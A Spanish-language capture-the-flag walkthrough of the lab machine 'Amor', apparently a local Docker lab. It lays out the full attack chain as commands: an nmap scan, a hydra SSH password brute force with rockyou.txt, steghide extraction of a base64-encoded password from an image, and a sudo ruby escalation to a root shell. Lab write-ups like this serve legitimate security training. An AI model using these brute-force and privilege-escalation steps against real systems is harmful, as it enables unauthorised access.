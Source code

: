 # MÁQUINA AMOR

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Amor/foto.jpg)

Están abiertos tanto el puerto 80 como el 22, vamos a ver el contenido del puerto 80:

![WEB](https://github.com/Isma-yo/photos/blob/main/Amor/foto2.jpg)

Nos encontramos con una página en la que tenemos 2 posibles usuarios, Carlota y Juan. Además, también se dice que hay una contrasña insegura.

Vamos a probar a hacer un ataque de fuerza bruta a ambos nombres de usuario a ver si conseguimos su contraseña:

```shell
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![HYD](https://github.com/Isma-yo/photos/blob/main/Amor/foto3.jpg)

Hemos encontrado la contraseña del usuario carlota, por lo que vamos a acceder a la máquina a través de SSH:

![SSH](https://github.com/Isma-yo/photos/blob/main/Amor/foto4.jpg)

Ya estamos dentro, ahora tendremos que tratar la tty (terminal) con los siguientes comandos:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

```shell
stty rows 24 columns 126
```

Vemos que hay una imagen en uno de los directorios, vamos a descargarla en nuestra máquina para poder examinarla. Para ello usaremos el comando scp (DESDE NUESTRA MÁQUINA ATACANTE):

```shell
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/isma
```

![IMG](https://github.com/Isma-yo/photos/blob/main/Amor/foto5.jpg)

Utilizamos la herramientra steghide y obtenemos un fichero secret.txt que contiene una contraseña:

```shell
steghide extract -sf imagen.jpg
```

![PASS](https://github.com/Isma-yo/photos/blob/main/Amor/foto6.jpg)

Esta cifrada en base64 así que vamos a descifrarla:

```shell
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```

![BAS](https://github.com/Isma-yo/photos/blob/main/Amor/foto7.jpg)

Y ahora si obtenemos una contraseña. Si hacemos un ls del directorio home podemos ver que ademas de carlota hay un usuario oscar, así que vamos a intentar convertirnos en el usando esta contraseña:

![OSC](https://github.com/Isma-yo/photos/blob/main/Amor/foto8.jpg)

Ya somos oscar, vamos a ver que puede ejeuctar como root usando el comando sudo -l. Vemos que puede ejecutar ruby como cualquier usuario y sin contraseña, usaremos esto para la escalada de privilegios.

Buscamos como escalar privilegios con ruby en GTFOBins y lo probamos:

https://gtfobins.github.io/gtfobins/ruby/#sudo

```shell
sudo ruby -e 'exec "/bin/sh"'
```

Y ya somos root!











